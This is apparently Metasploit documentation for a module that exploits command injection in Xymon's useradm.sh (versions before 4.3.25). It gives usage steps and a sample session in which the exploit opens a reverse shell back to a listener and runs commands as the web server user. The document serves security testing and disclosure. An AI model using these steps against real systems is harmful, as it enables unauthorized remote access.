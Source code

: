 ## Description

  This module exploits a command injection vulnerability in Xymon
  versions before 4.3.25 which allows authenticated users
  to execute arbitrary operating system commands as the web
  server user.

  When adding a new user to the system via the web interface with
  `useradm.sh`, the user's username and password are passed to
  `htpasswd` in a call to `system()` without validation.


## Vulnerable Software

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  This module has been tested successfully on:

  * Xymon version 4.3.10 on Debian 6.

  Xymon packages are available in software repositories for various Linux distributions :

  ```
  sudo apt-get install xymon
  ```

  Refer to http://xymon.sourceforge.net/xymon/help/install.html for more information.

  A Xymon virtual appliance is also available :

  * https://sourceforge.net/projects/xymon/files/Xymon/4.3.10/VM/

  To enable authentication via the web interface, add a user to `/etc/xymon/xymonpasswd` :

  ```
  htpasswd /etc/xymon/xymonpasswd <username>
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/xymon_useradm_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

  **TARGETURI**

  The base path to Xymon secure CGI directory (default: `/xymon-seccgi/`)

  **USERNAME**

  The username for Xymon

  **PASSWORD**

  The password for Xymon


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/xymon_useradm_cmd_exec 
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set rhosts xymon.local
  rhosts => xymon.local
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set username admin
  username => admin
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set password password
  password => password
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > check

  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [*] 10.1.1.132:80 - The target appears to be vulnerable.
  msf5 exploit(unix/webapp/xymon_useradm_cmd_exec) > run

  [*] Started reverse TCP handler on 10.1.1.170:4444 
  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [+] 10.1.1.132:80 - Payload sent successfully
  [*] Command shell session 1 opened (10.1.1.170:4444 -> 10.1.1.132:47682) at 2019-07-02 09:43:13 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /usr/lib/xymon/cgi-secure
  ls
  ackinfo.sh
  acknowledge.sh
  criticaleditor.sh
  enadis.sh
  useradm.sh
  uname -a
  Linux xymon 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686 GNU/Linux
  ```

